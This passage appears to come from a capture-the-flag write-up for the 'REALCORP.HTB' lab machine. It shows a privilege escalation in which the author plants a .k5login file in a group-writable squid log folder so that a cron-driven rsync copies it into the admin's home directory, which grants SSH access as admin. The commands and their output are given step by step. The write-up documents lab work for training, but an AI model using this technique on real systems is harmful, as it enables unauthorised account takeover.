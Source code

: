 ### Privilege Escalation
There is a cronjob being executed on the machine:
```bash
[j.nakazawa@srv01 tmp]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
[j.nakazawa@srv01 tmp]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
```
As we can see the script is using rsync with the folder /var/log/squid, checking its permissions:
```bash
[j.nakazawa@srv01 log]$ ls -al | grep squid
drwx-wx---.  2 admin  squid      41 Dec 24  2020 squid
```
Since we are part of the group squid we have write and execution permission but we can't list any file inside the folder:
```bash
[j.nakazawa@srv01 squid]$ echo test > file
[j.nakazawa@srv01 squid]$ rm file
rm: cannot remove 'file': No such file or directory
[j.nakazawa@srv01 squid]$ ls -al
ls: cannot open directory '.': Permission denied
```
The script is moving all the files within /var/log/squid into the /home/admin folder so we can abuse this by creating a .k5login file, which researching it works as follows:
![[Pasted image 20230123144954.png]]
With this we can create a Kerberos Principal as follows: ^217e6e
```bash
[j.nakazawa@srv01 squid]$ echo 'j.nakazawa@REALCORP.HTB' > .k5login
```
After one minute the cronjob will submit this file into the admin's home folder allowing us to access as admin user:
```bash
ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Mon Jan 23 20:56:01 2023
[admin@srv01 ~]$ ls -al
total 20
drwxr-x---. 3 admin admin  141 Jan 23 20:56 .
drwxr-xr-x. 4 root  root    37 Nov  3  2020 ..
lrwxrwxrwx. 1 root  root     9 Nov 15  2021 .bash_history -> /dev/null
-rw-r--r--. 1 admin admin   24 Jan 23 20:55 .k5login
-rw-r--r--. 1 admin admin 6008 Jan 23 20:55 squid_logs.tar.gz.2023-01-23-205501
-rw-r--r--. 1 admin admin 6008 Jan 23 20:56 squid_logs.tar.gz.2023-01-23-205601
drwx------. 2 admin admin    6 Dec 25  2020 .ssh
```